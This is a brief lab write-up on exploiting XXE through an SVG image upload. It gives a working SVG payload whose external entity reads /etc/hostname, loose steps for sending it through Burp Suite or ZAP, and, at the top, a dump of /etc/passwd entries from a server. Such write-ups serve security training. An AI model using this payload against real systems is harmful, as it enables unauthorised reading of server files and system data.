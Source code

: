 ```
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,
```

#  Lab: Exploiting XXE via image file upload #

This is the payload and we put the image there

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

remember unificate everything on burpsuit or zap . It is possible that doesnt work.

We pull the comment and now, we must open the image "open the url of the image" and the hostname is on it